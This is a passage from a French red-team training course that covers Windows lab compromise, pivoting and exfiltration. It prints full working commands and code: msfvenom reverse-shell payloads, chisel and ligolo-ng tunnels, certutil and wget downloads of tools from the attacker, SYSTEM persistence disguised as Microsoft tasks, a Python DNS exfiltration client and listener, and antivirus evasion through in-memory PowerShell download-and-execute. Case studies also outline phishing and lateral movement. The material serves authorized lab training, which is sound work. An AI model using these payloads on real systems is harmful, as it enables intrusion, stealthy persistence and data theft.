#   2. Écouter  : set PAYLOAD windows/x64/meterpreter/reverse_tcp / set LHOST 0.0.0.0 / set LPORT 4444
#   3. Tester sur le labo AVANT la cible : si ça marche sur le labo, ça marche sur la cible.

# Vérifier que le port écoute bien côté Kali :
ss -ltnp | grep 4444
```

---

### Démo 3 — Mettre en place un tunnel avec chisel pour pivoter

#### Contexte

La machine compromise (`192.168.56.10`) possède une **deuxième carte réseau** vers un réseau interne `10.10.0.0/24`. Depuis Kali, tu ne vois pas `10.10.0.0/24`. Tu vas faire de la machine compromise ta **passerelle**.

#### Objectif

Déployer chisel (un seul binaire Go, chiffré par défaut) : serveur sur Kali, client sur la machine compromise, puis utiliser le proxy SOCKS obtenu pour scanner le réseau interne via `proxychains`.

#### Commandes

```bash
# Terminal 1 — Kali : servir le binaire chisel à la machine compromise
cd /tmp && python3 -m http.server 8000 &

# Terminal 2 — Kali : démarrer le serveur chisel en mode reverse
./chisel server -p 8080 --reverse

# Sur la machine compromise (récupérer et lancer le client chisel windows)
#   C:\> certutil -urlcache -split -f http://192.168.56.1:8000/chisel.exe C:\Windows\Temp\chisel.exe
#   C:\> C:\Windows\Temp\chisel.exe client 192.168.56.1:8080 R:1080:socks

# Retour Kali : le tunnel SOCKS5 est ouvert sur 127.0.0.1:1080

# Terminal 3 — Kali : configurer proxychains
#   sudo nano /etc/proxychains4.conf
#   → ajouter en fin de fichier :  socks5 127.0.0.1 1080

# Scanner le réseau interne à travers le tunnel
proxychains4 -q nmap -sT -Pn 10.10.0.0/24 --top-ports 50
```

#### Explication ligne par ligne

1. `python3 -m http.server 8000` : sert le binaire chisel à la machine compromise (livraison via LOLBin). `&` le met en arrière-plan.
2. `./chisel server -p 8080 --reverse` : le serveur écoute sur 8080 ; `--reverse` autorise le client à *ouvrir* des ports sur le serveur (mode reverse, la cible vient vers toi — pratique quand tu ne peux pas te connecter à elle).
3. Sur la cible : `certutil -urlcache -split -f …` télécharge le binaire via un LOLBin légitime (démo évasion) ; puis `client 192.168.56.1:8080 R:1080:socks` connecte le client au serveur et demande l'ouverture d'un **proxy SOCKS5** sur le port 1080 **de Kali**.
4. `/etc/proxychains4.conf` : on déclare à proxychains le proxy SOCKS local à utiliser.
5. `proxychains4 -q nmap -sT -Pn` : nmap passe **par le proxy** (donc par la machine compromise, donc par le réseau interne). `-sT` (connect scan) est obligatoire : le SYN scan ne fonctionne pas à travers un proxy SOCKS. `-Pn` évite la découverte d'hôte par ICMP (souvent bloquée).

#### Résultat attendu

```
[server] tunnel: HTTP/1.1 proxy
…
Nmap scan report for 10.10.0.10
Host is up (0.003s latency).
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

#### Analyse

- Le réseau interne `10.10.0.0/24` devient **visible et atteignable** depuis Kali, sans jamais exposer l'attaquant : tout passe par le tunnel chiffré et par la machine compromise.
- Le port 445 (SMB) et 3389 (RDP) sur `10.10.0.10` sont des portes de latéralité classiques (T1021).
- C'est la brique « pivot » qui rend possible la suite : tester des identifiants volés, monter des partages, exécuter des commandes à distance.

#### Erreurs fréquentes

- Oublier `--reverse` côté serveur (ou `R:` côté client) : le tunnel ne s'établit pas.
- Utiliser `nmap -sS` via proxychains : le SYN scan n'est pas routable par un proxy SOCKS — échec ou scan incohérent. Toujours `-sT`.
- Oublier `-Pn` : la découverte d'hôte échoue, nmap dit « host down ».
- Laisser le pare-feu de la machine compromise bloquer le port 8080 sortant.
- Confondre les interfaces : vérifier sur Kali `ss -ltnp | grep 1080` que le SOCKS écoute bien.

#### Correction

```bash
# Vérification systématique avant d'attaquer le réseau interne :
ss -ltnp | grep -E "1080|8080"          # le SOCKS et le serveur écoutent ?
curl -x socks5://127.0.0.1:1080 http://10.10.0.10/ -m 5   # test de connectivité basique
# Puis : proxychains4 -q nmap -sT -Pn 10.10.0.10 -p 445,3389
```

---

### Démo 4 — Persistance via schtasks sur une machine Windows de labo

#### Contexte

Tu as une session (meterpreter ou shell) sur la machine Windows de labo `192.168.56.10`. L'utilisateur va éteindre puis rallumer son poste. Tu veux que ton accès survive.

#### Objectif

Installer une **tâche planifiée** (T1053.005) qui relance le payload à chaque ouverture de session, sous le compte `SYSTEM` (privilèges maximaux), puis vérifier la persistance après redémarrage simulé.

#### Commandes

```bat
:: Sur la machine compromise (shell Windows, à partir de la session)
:: 1. Copier le payload dans un emplacement discret
copy payload_propre.exe C:\ProgramData\sysmon64.exe

:: 2. Créer la tâche planifiée (nom banal, onlogon, SYSTEM, niveaux hauts, force)
schtasks /create /tn "MicrosoftEdgeUpdate" /tr "C:\ProgramData\sysmon64.exe" /sc onlogon /ru SYSTEM /rl highest /f

:: 3. Vérifier que la tâche existe et est bien configurée
schtasks /query /tn "MicrosoftEdgeUpdate" /v

:: 4. La lancer immédiatement pour valider (sans attendre le prochain logon)
schtasks /run /tn "MicrosoftEdgeUpdate"
```

#### Explication ligne par ligne

1. `copy payload_propre.exe C:\ProgramData\sysmon64.exe` : le payload est copié dans `ProgramData` (répertoire accessible sans droits admin, moins surveillé que `Temp`), sous un nom qui évoque un outil de sécurité Microsoft (`sysmon`). C'est du **masquage** (T1036).
2. `schtasks /create` : `/tn` = nom de la tâche (banal) ; `/tr` = programme à lancer ; `/sc onlogon` = se déclenche à l'ouverture de session ; `/ru SYSTEM` = s'exécute en tant que SYSTEM (le compte le plus privilégié) ; `/rl highest` = niveau d'exécution maximal ; `/f` = force la création sans confirmation.
3. `schtasks /query /tn … /v` : vérifie que la tâche est bien enregistrée et affiche sa configuration complète (c'est aussi la **preuve** pour le rapport).
4. `schtasks /run /tn …` : déclenche la tâche immédiatement, pour valider qu'elle fonctionne — sans attendre le prochain logon.

#### Résultat attendu

```
SUCCESS: The scheduled task "MicrosoftEdgeUpdate" has successfully been created.
…
TaskName:     MicrosoftEdgeUpdate
Status:       Ready
Logon Mode:   Interactive only
Run As User:  SYSTEM
Schedule Type: At log on
```

Après `schtasks /run`, la tâche exécute le payload : si ton listener (démo 2) écoute, une **seconde session** apparaît depuis `192.168.56.10`.

#### Analyse

- La persistance est **prête à chaque reconnexion** : au prochain logon de n'importe quel utilisateur, la tâche relancera le payload sous SYSTEM — et SYSTEM peut tout faire (T1053.005 + escalade).
- Le nom « MicrosoftEdgeUpdate » imite un mécanisme légitime : la défense qui scrute les noms de tâches suspectes n'y verra rien d'anormal à première vue.
- Attention : un vrai adversaire ne nommerait pas son payload `sysmon64.exe` sans vérifier que le vrai Sysmon n'est pas installé (sinon collision de noms).

#### Erreurs fréquentes

- Oublier `/ru SYSTEM` : la tâche tourne avec les droits de l'utilisateur connecté — moins utile pour la latéralité.
- Oublier `/f` : la commande demande confirmation ou échoue si la tâche existe déjà.
- Tester la persistance **sans listener actif** : la tâche se lance, le payload se connecte dans le vide, on croit à tort qu'elle ne fonctionne pas.
- Ne jamais tester le reboot réel sur le labo : on *simule* (reboot ou `schtasks /run`). Dans un engagement réel, le reboot est un événement à éviter sans accord.

#### Correction

```bash
# Vérification complète après installation :
schtasks /query /tn "MicrosoftEdgeUpdate" /v /fo list
# Si la tâche doit survivre au reboot AVEC une répétition (toutes les 5 min), ajouter :
#   /sc minute /mo 5   (au lieu de onlogon)  →  relance périodique même sans logon
schtasks /create /tn "MicrosoftEdgeUpdate" /tr "C:\ProgramData\sysmon64.exe" /sc minute /mo 5 /ru SYSTEM /rl highest /f
```

---

### Démo 5 — Exfiltration DNS basique (scripts Python en labo)

#### Contexte

Tu es sur le poste compromis (ou sur un second poste de labo) et tu dois sortir un « canari » sans passer par le réseau HTTP(S). Le DNS est le canal de sortie le plus souvent laissé ouvert. Tu contrôles un « serveur DNS de test » : ta machine d'attaque Kali.

#### Objectif

Écrire deux petits scripts Python : un **client** (sur la machine « compromise ») qui encode un message en base64 et l'envoie par morceaux sous forme de sous-domaines DNS, et un **serveur** (sur Kali, port 53 du labo) qui écoute les requêtes DNS brutes et les réassemble.

#### Commandes

Fichier `dns_listener.py` — à exécuter sur Kali (serveur de test) :

```python
#!/usr/bin/env python3
import socket

def parse_qname(pkt, offset=12):
    labels = []
    while True:
        ln = pkt[offset]
        offset += 1
        if ln == 0:
            break
        if ln & 0xC0 == 0xC0:   # compression DNS : on s'arrête (simple)
            break
        labels.append(pkt[offset:offset + ln].decode(errors='ignore'))
        offset += ln
    return '.'.join(labels)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind(('0.0.0.0', 53))
print('[+] DNS exfil listener sur 0.0.0.0:53 (labo)')
chunks = {}
while True:
    data, addr = sock.recvfrom(65535)
    try:
        qname = parse_qname(data)
        chunk = qname.split('.')[0]
        idx = int(chunk[0])
        payload = chunk[1:]
        chunks[idx] = payload
        print(f'[{addr[0]}] morceau {idx}: {payload}')
    except Exception as e:
        print(f'[!] {addr[0]} requete illisible: {e}')
```

Fichier `dns_client.py` — à exécuter sur la machine « compromise » :

```python
#!/usr/bin/env python3
import socket
import base64

message = b'CANARI:facturation-2026.xlsx'
b64 = base64.b64encode(message).decode().replace('+', '-').replace('/', '_')
SERVER = ('192.168.56.1', 53)   # IP du serveur de test (Kali)

for i in range(0, len(b64), 12):
    chunk = b64[i:i + 12]
    label = f'{i // 12}{chunk}'
    qname = f'{label}.exfil.lab'
    q = b'\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00'
    for part in qname.split('.'):
        lb = part.encode()
        q += bytes([len(lb)]) + lb
    q += b'\x00\x00\x01\x00\x01'
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.sendto(q, SERVER)
    s.close()
    print(f'[+] envoye: {qname}')
print('[+] exfiltration terminee')
```

#### Explication ligne par ligne

1. **Listener** : on ouvre un socket UDP brut sur le port 53 (le port DNS). `parse_qname` lit le nom de la requête DNS brute (format : longueur-octet + label). Chaque morceau est stocké avec son index (`chunks[idx]`). Le message peut ensuite être réassemblé et décodé.
2. **Client** : le message (`CANARI:facturation-2026.xlsx`) est encodé en base64 (représentation sûre), puis découpé en morceaux de 12 caractères. Chaque morceau devient un **sous-domaine** : `0<morceau>.exfil.lab`. Le premier caractère du label sert d'index de réassemblage.
3. La requête DNS est construite **à la main** (pas de bibliothèque) : en-tête DNS de 12 octets (ID `0x1234`, flags `0x0100` = requête standard, QDCOUNT=1), puis le nom, puis le type A (`00 01`) et la classe IN (`00 01`).
4. `s.sendto(q, SERVER)` : la requête part en UDP vers ton serveur de test. Chaque morceau est une requête DNS légitime en apparence.

#### Résultat attendu

```
[+] DNS exfil listener sur 0.0.0.0:53 (labo)
[192.168.56.10] morceau 0: Q0FUQVJJRjpmYWN0dXJhdGlvbi0yMDI2Lnhsc3g=
[192.168.56.10] morceau 1: ZDpDQU5BUkk6ZmFjdHVyYXRpb24tMjAyNi54bHN4PQ==
…
```

(Côté client : `[+] envoye: 0Q0FUQVJJRjpmYWN0dXJhdGlvbi0yMDI2Lnhsc3g=.exfil.lab`)

Le réassemblage du message donne : `CANARI:facturation-2026.xlsx`.

#### Analyse

- **Aucun fichier n'est transféré** : seuls des noms DNS transitent. C'est l'exfiltration par **protocole alternatif** (T1048 / T1071.004).
- Les requêtes vers `exfil.lab` passent au milieu de milliers de requêtes DNS normales : sans corrélation dédiée (regrouper par domaine de destination, repérer les noms trop longs), rien ne les distingue.
- Ce script est **pédagogique** : les outils professionnels (dnscat2, iodine) font la même chose avec chiffrement, commandes interactives et protocoles plus complexes.

#### Erreurs fréquentes

- Oublier que le DNS réel utilise un serveur de noms : en labo, on envoie les requêtes **directement** au serveur de test UDP (port 53). Sur un vrai réseau, il faudrait un domaine que tu contrôles et un serveur de noms autoritaire.
- Des labels de plus de 63 octets : le DNS les rejette — toujours découper en petits morceaux.
- Des caractères non autorisés dans un label DNS (ex. `+`, `/`, `=` du base64) : d'où le remplacement par `-` et `_` dans le script.
- Lancer le listener **après** le client : les premiers morceaux sont perdus.
- Confondre l'exfil DNS avec une vraie conversation DNS chiffrée : dans un vrai engagement, on chiffre aussi le canal (le DNS en clair se lit à la volée).

#### Correction

```bash
# Ordre correct en labo :
# 1. Kali  :  sudo python3 dns_listener.py        (root requis pour le port 53)
# 2. Cible :  python3 dns_client.py
# 3. Vérifier le réassemblage : réunir les morceaux, décoder le base64.
# Nettoyage après la démo : arrêter le listener, vérifier qu'aucun processus ne reste sur le port 53.
ss -ltnup | grep :53
```

---

## Cas réels

> ⚠️ **Légal** : les deux scénarios supposent un mandat écrit, des ROE signées
> et un laboratoire ou un périmètre de test autorisé. Ils décrivent un
> raisonnement professionnel, pas des instructions à exécuter sur des systèmes
> réels sans autorisation.

---

### Cas réel n° 1 — « Exercice annuel : tu dois atteindre les données financières sans jamais toucher au réseau de production »

#### Contexte

Tu es recruté(e) en tant que red teamer pour l'exercice annuel d'une PME de 400 employés. Le commanditaire est le directeur des risques. Le mandat : **atteindre le fichier de facturation mensuelle** (le crown jewel) en partant de zéro. Les ROE : interdiction de toucher aux serveurs de production, interdiction de toute exfiltration réelle (canaris uniquement), durée totale 2 semaines. Le scope : les domaines `corp.local`, le VPN public, et une plage IP. La blue team (3 analystes + un EDR) est prévenue qu'« un exercice a lieu dans l'année », sans date.

#### Objectif

Reconstruire le chemin d'attaque complet, de l'extérieur jusqu'au fichier comptable, en respectant strictement le cadre.

#### Déroulement proposé (à analyser, pas à exécuter)

1. **Préparation** (3 jours) : lecture des ROE, montage de l'infra offensive (VPS, domaines lookalike, teamserver Sliver sur le VPS, redirector `socat`), création de la page de collecte (fausse page VPN), préparation de deux canaris à placer plus tard dans le SI de facturation.
2. **Accès initial** (2 jours) : reconnaissance passive (OSINT : noms d'employés, fournisseurs, e-mails publics) ; envoi de 15 e-mails « interruption de paiement fournisseur » avec un lien vers la fausse page VPN, ciblant la comptabilité et les achats. Collecte de 3 jeux d'identifiants en 24 h.
3. **Vérification discrète** (1 jour) : test des identifiants sur la vraie page VPN, depuis le VPS via TOR (le VPN journalise les IP). Un compte fonctionne pour l'employé `j.dumont`. Connexion au VPN, puis RDP vers son poste. Aucun binaire : tout passe par PowerShell en mémoire (`IEX`).
4. **Consolidation** (2 jours) : sur le poste, montée de privilèges locale (un service tiers tourne en SYSTEM et est vulnérable à un DLL hijacking — T1574.001), persistance discrète (clé Run + WMI subscription), et installation d'un beacon Sliver qui dort 2 minutes avec 20 % de jitter, via HTTPS vers le redirector.
5. **Latéralité** (3 jours) : BloodHound sur le domaine. Découverte d'une ACL : le compte de service de l'application de facturation (`svc_fact`) a `GenericAll` sur l'OU « Services » — on peut modifier la GPO de l'OU pour exécuter une commande sur toutes les machines de l'OU (GPO abuse). Réutilisation des identifiants trouvés dans l'historique du navigateur de `j.dumont` pour passer à un serveur applicatif.
6. **Atteinte du crown jewel** (1 jour) : depuis le serveur applicatif, accès au partage `\\FS01\Facturation`. Dépôt d'un **canari** (`canary_facturation.xlsx`) — c'est ce fichier que tu vas « voler » — puis exfiltration par DNS en 90 minutes par petits morceaux.
7. **Nettoyage et rapport** (3 jours) : retrait des persistances hors périmètre, debriefing avec la white cell, rapport : 4 scénarios racontés, temps de détection (aucune alerte pendant 12 jours), 2 recommandations prioritaires (verrouiller l'ACL `GenericAll`, activer l'audit des GPO).

#### Analyse

- La réussite tient d'abord au **cadre** : tout ce qui a été fait était dans le mandat. Les données exfiltrées étaient des canaris, jamais des données réelles.
- La méthode a privilégié la **discrétion** : pas de scan de masse, un minimum d'outils posés sur disque, un C2 chiffré avec sleep/jitter, un accès initial via le facteur humain (aucune faille technique).
- Le rapport mesure la défense : « aucune détection en 12 jours » est l'information qui fait agir le commanditaire.

---

### Cas réel n° 2 — « La blue team te détecte : comment tu adaptes ta technique ? »

#### Contexte

Même exercice, deuxième semaine. Pendant que tu pivotes, tu remarques que ton beacon HTTPS est **découvert** : le teamserver affiche des connexions coupées, et ton canal de secours DNS indique des requêtes qui ne reviennent plus. Hypothèse : l'EDR a corrélé le trafic vers ton redirector (domaine inconnu + volume anormal), et le SOC a blacklisté ton domaine. Ce n'est pas un échec : c'est la partie la plus instructive de l'exercice — et c'est exactement pour ça que le client a payé.

#### Objectif

Adapter ta technique en plein engagement : changer de canal, de vecteur, de machine, sans perdre l'accès, et documenter la détection.

#### Déroulement proposé

1. **Diagnostic OPSEC** : tu ne paniques pas. Tu vérifies ce qui est réellement brûlé : le domaine du redirector (certainement), ton VPS (peut-être), les beacons de la machine compromise (sans doute). Tu coupes proprement : extinction du listener du domaine brûlé, arrêt du beacon concerné.
2. **Basculer sur le canal de secours** : tu avais préparé un **canal DNS** (dnscat2 ou ton script maison) au cas où. Le beacon principal est remplacé par le canal DNS vers un **second VPS** jamais utilisé. Tu changes aussi le certificat et le profil de trafic.
3. **Changer de vecteur humain** : le poste de `j.dumont` est probablement marqué par le SOC (connexions VPN inhabituelles). Tu utilises les identifiants d'un second compte collecté au début (victime restée silencieuse) pour passer sur un autre poste — celui-ci n'a encore rien d'anormal.
4. **Réduire le bruit** : tu passes le sleep à 5 minutes (jitter 30 %), tu évites les connexions RDP directes (connues du SOC) au profit de `wmiexec` (T1021) à travers un tunnel ligolo, et tu fais tourner les outils en mémoire, jamais sur disque.
5. **Transformer la détection en leçon** : tu notes *exactement* quand et comment l'EDR t'a vu (tous les logs de ta console, les horaires, les IP). Ce sera la pièce maîtresse du debriefing : « voici le moment où vous nous avez vus, voici le signal que vous avez corrélé, voici comment nous sommes passés au-dessus cette fois ».
6. **Reprendre l'objectif** : avec le nouveau poste et le canal DNS, tu atteins le crown jewel en 2 jours au lieu d'un — preuve que la défense a ralenti la progression (c'est un résultat positif à rapporter) sans l'arrêter.

#### Analyse

- Un red team **n'échoue pas quand il est détecté** : il échoue quand il ne sait pas qu'il l'a été, ou quand il ne s'était pas préparé. La détection est une donnée de l'exercice.
- La préparation (canal de secours, VPS jetables, certificats renouvelables, plusieurs comptes) fait toute la différence. L'OPSEC n'est pas une option, c'est la résilience de l'engagement.
- Le rapport gagne une section précieuse : le **moment exact de la détection**, l'analyse du signal (EDR), et l'adaptation. C'est cette histoire que le SOC emporte.

---

## Laboratoires

> ⚠️ **Légal** : les deux TP se déroulent exclusivement dans ton laboratoire
> isolé (VirtualBox/VMware, réseau host-only, aucune interface Internet). Ils
> reproduisent les phases d'un engagement red team avec un mandat écrit fictif
> que tu rédiges toi-même avant de commencer — c'est la première étape de chaque
> TP.

---

### TP 1 — « Campagne complète simplifiée » : cible vulnérable, payload, C2, persistance

#### Objectif

Reproduire la boucle complète d'un engagement minimal sur un labo : une machine Windows vulnérable (Metasploitable 3 / Windows 7 de labo, ou une VM Windows avec un service vulnérable), un payload, un C2 (Sliver ou Metasploit), une persistance, et la preuve de compromission.

#### Environnement

| Élément | Valeur |
| ------- | ------ |
| Machine attaquante | Kali (Linux), réseau host-only `192.168.56.0/24` |
| Machine cible | VM Windows de labo (ex. Windows 7/10 non patché ou Metasploitable 3), IP `192.168.56.10` |
| Outils | `msfvenom`, `msfconsole` (multi/handler) ou Sliver, `schtasks`, `reg`, ClamAV |
| Mandat fictif | À rédiger avant de commencer : « atteindre le fichier `C:\labo\secrets.txt` et y maintenir un accès après reboot » |

#### Étapes

1. Rédige le mandat fictif et les ROE (2 paragraphes suffisent) : scope (`192.168.56.10`), durée (4 h), techniques autorisées, stop condition.
2. Exploite l'accès initial : scan ciblé (`nmap -p- -sV`), exploite une vulnérabilité connue de la VM (ex. EternalBlue si Metasploitable 3 Windows 7, ou un service mal configuré) pour obtenir un premier shell.
3. Générez un payload : `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe -o payload.exe`, et mets en place un listener `multi/handler`. (Ou bien : compile un implant Sliver : `generate --mtls 192.168.56.1 --os windows --arch amd64 --save implant.exe` + `mtls --lhost 0.0.0.0 --lport 8888`.)
4. Livre le payload sur la cible (via la session existante : `upload`, ou via un LOLBin) et récupère la session.
5. Installe **deux** persistances : une Scheduled Task (`schtasks /create … /sc onlogon`) et une clé Run (`reg add …`). Documente les deux commandes.
6. Valide les persistances : reboot de la VM, reconnexion, vérifie que le beacon revient (avec le listener actif).
7. Collecte la preuve : `getuid`, `sysinfo`, lecture de `C:\labo\secrets.txt`, capture d'écran, export de la timeline.
8. Nettoyage : retire les deux persistances (`schtasks /delete`, `reg delete`), ferme les sessions.

#### Indices

- Indice 1 : le mismatch x86/x64 est la cause n°1 d'une session jamais reçue — vérifie le bitness de la VM avant de générer.
- Indice 2 : la persistance ne se prouve qu'après reboot. Ne fais pas le test « sans listener actif » (on croirait à tort que la persistance est cassée).
- Indice 3 : pour le rapport, chaque étape doit être horodatée et référencée ATT&CK (TA0001, T1053.005, T1547.001…).

#### Correction

```bash
# 1. Scan ciblé (démo niveau 6) :
sudo nmap -Pn -sV -p- 192.168.56.10 -oA scan-tp1

# 2. Exploitation (exemple : EternalBlue sur Metasploitable 3 Windows 7) :
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
run

# 3. Persistances (dans la session) :
shell
copy payload.exe C:\ProgramData\svcupdate.exe
schtasks /create /tn "SvcUpdate" /tr "C:\ProgramData\svcupdate.exe" /sc onlogon /ru SYSTEM /rl highest /f
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v SvcUpdate /t REG_SZ /d "C:\ProgramData\svcupdate.exe" /f
exit

# 4. Après reboot de la VM, avec le listener actif :
sessions -l   # la session revient
```

#### Explications

- Le TP reproduit les 4 grandes étapes d'un engagement : accès initial (exploitation), livraison (payload + session), persistance (2 mécanismes), preuve. Le C2 est ici minimal (Metasploit ou Sliver), mais le *cheminement* est celui d'un vrai engagement.
- La persistance par Scheduled Task sous SYSTEM est la plus « utile » : elle survit à la fermeture de session et donne des droits élevés. La clé Run est plus visible mais plus simple à démontrer. Leur combinaison est réaliste (les APT empilent les mécanismes).
- Documenter (horodatage + ATT&CK) est une compétence du TP au même titre que les commandes : c'est ce qui fera la qualité du rapport final.

---

### TP 2 — « Tunneling et pivot » : réseau multi-segments, premier hôte, pivot interne

#### Objectif

Sur un réseau de labo à trois segments, pénétrer un premier hôte exposé, utiliser un tunnel chiffré (ligolo-ng ou chisel) pour pivoter vers un réseau interne, et atteindre la cible finale (un « serveur de fichiers » de labo qui contient un canari).

#### Environnement

| Élément | Valeur |
| ------- | ------ |
| Attaquant | Kali, segment externe `192.168.56.0/24` |
| Premier hôte (pivot) | VM avec deux cartes réseau : `192.168.56.20` (externe) et `10.10.0.5` (interne) — ex. une VM Linux avec une faille d'exécution de commande, ou Windows avec RDP+identifiants de labo |
| Réseau interne | `10.10.0.0/24`, isolé de Kali |
| Cible finale | VM `10.10.0.10` avec un serveur web ou un partage contenant le canari `canary.txt` |
| Outils | `chisel` (server/client), `ligolo-ng` (`proxy` + `agent`), `proxychains4`, `nmap`, `curl` |

#### Étapes

1. Rédige le mandat fictif : « atteindre `canary.txt` sur `10.10.0.10` sans quitter le réseau interne par un autre chemin ».
2. Compromets le premier hôte `192.168.56.20` (exploitation d'une faille web avec injection de commande, ou RDP avec des identifiants de labo autorisés). Objectif : obtenir un shell.
3. Télécharge chisel (ou l'agent ligolo-ng) sur le premier hôte. Démarre le serveur chisel sur Kali (`./chisel server -p 8080 --reverse`) et le client sur le pivot (`chisel client 192.168.56.1:8080 R:1080:socks`).
4. Configure proxychains (`socks5 127.0.0.1 1080`) et scanne le réseau interne : `proxychains4 -q nmap -sT -Pn 10.10.0.0/24`.
5. Identifie la cible `10.10.0.10` (port web ouvert) et récupère le canari : `proxychains4 -q curl http://10.10.0.10/canary.txt`.
6. Recommence le pivot avec ligolo-ng (pour comparer les deux outils) : crée l'interface `ligolo` (`sudo ip tuntap add user $(whoami) mode tun ligolo` + `sudo ip link set ligolo up`), lance `./proxy -selfcert`, connecte `./agent -connect 192.168.56.1:11601 -ignore-cert` sur le pivot, ajoute la route (`sudo ip route add 10.10.0.0/24 dev ligolo`), active le tunnel (consoles `tunnel` + `start`), puis `curl http://10.10.0.10/canary.txt` **sans proxychains** (ligolo rend le réseau interne directement routable).
7. Nettoyage : ferme les tunnels, supprime l'interface `ligolo` (`sudo ip link del ligolo`), retire l'agent du pivot.

#### Indices

- Indice 1 : avec proxychains, n'utilise que des outils compatibles proxy SOCKS : `nmap -sT` (jamais `-sS`), `curl -x socks5://127.0.0.1:1080`, `rdesktop` etc.
- Indice 2 : ligolo-ng rend le réseau interne *routable* : tu n'as pas besoin de proxychains, mais il faut l'interface `ligolo` active et la route posée **après** la connexion de l'agent.
- Indice 3 : si `10.10.0.0/24` ne répond pas à travers le tunnel, vérifie le pare-feu du pivot (le trafic interne doit être forwardé) et que l'agent/tunnel tourne toujours.

#### Correction

```bash
# Sur Kali — serveur chisel :
./chisel server -p 8080 --reverse

# Sur le pivot — client chisel (livré via la session, ex. wget) :
wget http://192.168.56.1:8000/chisel -O /tmp/chisel && chmod +x /tmp/chisel
/tmp/chisel client 192.168.56.1:8080 R:1080:socks

# Sur Kali — scan interne via proxy :
proxychains4 -q nmap -sT -Pn 10.10.0.0/24 -p 80,445
proxychains4 -q curl http://10.10.0.10/canary.txt -m 15

# Variante ligolo-ng (Kali) :
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
#   console: sessions  →  tunnel  →  start
sudo ip route add 10.10.0.0/24 dev ligolo
curl http://10.10.0.10/canary.txt -m 10

# Nettoyage :
sudo ip link del ligolo
```

#### Explications

- Le TP montre la différence entre un tunnel **couche 4** (chisel : un proxy SOCKS par lequel chaque outil doit passer) et un tunnel **couche 3** (ligolo-ng : une vraie interface réseau, donc tout le système y a accès directement). Chacun a ses usages : chisel est plus simple et plus léger, ligolo-ng plus « transparent ».
- La livraison des binaires (chisel, agent) sur le pivot reproduit le geste « déployer un outil sur une machine compromise » — avec le choix d'utiliser des canaux chiffrés pour ne pas éveiller la détection.
- Le canari (`canary.txt`) est la preuve de l'objectif atteint : dans un engagement réel, on ne sort jamais un vrai fichier — on prouve l'accès avec un canari, et on documente.

---

## Mini Challenges

> ⚠️ **Légal** : les trois défis se font dans ton laboratoire isolé, avec un
> mandat fictif rédigé avant chaque défi. Aucune de ces manipulations n'est
> à reproduire sur un système réel sans autorisation écrite.

---

### Challenge 1 — Facile 🔎 « Obfusquer un payload pour passer un AV de test »

#### Objectif

Générer un payload qui échappe à un AV de laboratoire (ClamAV ou Windows Defender sur ta VM de test), en utilisant au moins deux techniques d'obfuscation différentes (encodage, chiffrement, packing, script). Le payload doit rester **fonctionnel** (prouver : un listener qui reçoit la session).

#### Indices

- Indice 1 : commence par mesurer la détection du payload brut (`msfvenom` sans obfuscation) : c'est ta ligne de base. Un AV ne se bat pas contre « le » payload mais contre ce qu'il *reconnaît*.
- Indice 2 : les encodeurs (`shikata_ga_nai`) et UPX sont les plus simples mais les plus détectés. Essaie de **changer la surface** : payload PowerShell encodé en base64, ou chargement en mémoire via `IEX (New-Object Net.WebClient).DownloadString(...)`.
- Indice 3 : la vraie victoire, c'est le **zéro fichier** : si le payload n'est jamais écrit sur disque, l'AV n'a rien à scanner. Teste un script qui télécharge et exécute en mémoire.

#### Correction

```bash
# Ligne de base : payload brut (détecté)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe -o /tmp/brut.exe
clamscan /tmp/brut.exe                      # → FOUND

# Tentative 1 : encodeur + packer (probablement encore détecté)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o /tmp/enc.exe
upx --best /tmp/enc.exe -o /tmp/enc_upx.exe
clamscan /tmp/enc_upx.exe                    # → souvent FOUND (UPX est signé)

# Tentative 2 : zéro fichier, exécution en mémoire
# Générer un payload PowerShell :
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f psh -o /tmp/p.ps1
#   Le servir sur Kali :  python3 -m http.server 8000 &
#   Sur la cible (exécution via la session) :
#     powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.1:8000/p.ps1')"
# Aucun fichier sur disque → l'AV n'a rien à analyser ; le listener reçoit la session.
```

**Conclusion** : le défi est réussi quand (a) tu peux *expliquer* pourquoi l'encodeur seul ne suffit plus, et (b) tu as fait passer une exécution **en mémoire** sous un AV de labo avec un listener qui reçoit la session.

---

### Challenge 2 — Moyen 🛰️ « Établir un tunnel chiffré et pivoter »

#### Objectif

Compromettre un premier hôte de labo, établir un tunnel chiffré (chisel **ou** ligolo-ng, au choix), pivoter vers un réseau interne, et atteindre un service qui n'est visible que depuis ce réseau interne (ex. une page web `http://10.10.0.10/flag.txt`).

#### Indices

- Indice 1 : l'erreur la plus courante est le scan SYN à travers un proxy SOCKS. Rappelle-toi : `-sT` (connect scan) et `-Pn` avec proxychains.
- Indice 2 : avec ligolo-ng, si tu n'as pas créé l'interface `ligolo` (`sudo ip tuntap add user $(whoami) mode tun ligolo` + `sudo ip link set ligolo up`) et posé la route, le réseau interne n'est pas routable depuis Kali.
- Indice 3 : teste d'abord la connectivité basique à travers le tunnel (`curl -x socks5://127.0.0.1:1080 http://10.10.0.10/`) avant de lancer un scan complet : si `curl` marche, le tunnel est bon, le problème est ailleurs.

#### Correction

```bash
# Étape 1 — compromission du pivot (déjà faite ou via exploitation simple).
# Étape 2 — chisel :
./chisel server -p 8080 --reverse
#   sur pivot : ./chisel client 192.168.56.1:8080 R:1080:socks
# Étape 3 — proxychains + curl :
proxychains4 -q curl http://10.10.0.10/flag.txt -m 15
